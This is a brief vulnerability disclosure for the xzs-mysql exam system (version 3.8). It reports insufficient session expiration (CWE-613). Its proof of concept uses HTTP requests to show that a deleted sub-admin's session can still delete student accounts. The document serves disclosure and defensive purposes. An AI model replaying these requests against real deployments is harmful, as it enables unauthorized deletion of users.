 ## TYPE: Insufficient Session Expiration(CWE-613)

## Date: 3/13/2024
## Vendor
[mindskip](https://github.com/mindskip)
Homepage: https://github.com/mindskip/xzs-mysql
version: 3.8(updated 7/19/2022)
commit: 189b03f63bef4e2bfeba7003512860283ee27605(updated 3/8/2024)
## Tested on: Debian Linux, Mysql

## Exploit Description
Suffering from CWE613-Insufficient Session Expiration, which allows attackers to use the session of a deleted admin to do anything.
### PoC
1. `admin` login
2. `admin` create another admin named `sub-admin`
```
POST 	/api/admin/user/edit HTTP/1.1
{"id":null,"userName":"sub-admin","password":"123456"...}
```
3. `sub-admin` logged in 
4. `admin` delete `sub-admin`
```
POST /api/admin/user/delete/12 HTTP/1.1
```
5. `sub-admin` can still delete students
```
POST /api/admin/user/delete/15 HTTP/1.1
...
response: 
HTTP/1.1 200 OK
{"code":1,"message":"成功","response":null}
```
![[Pasted image 20240313105753.png]]
![[Pasted image 20240313105803.png]]
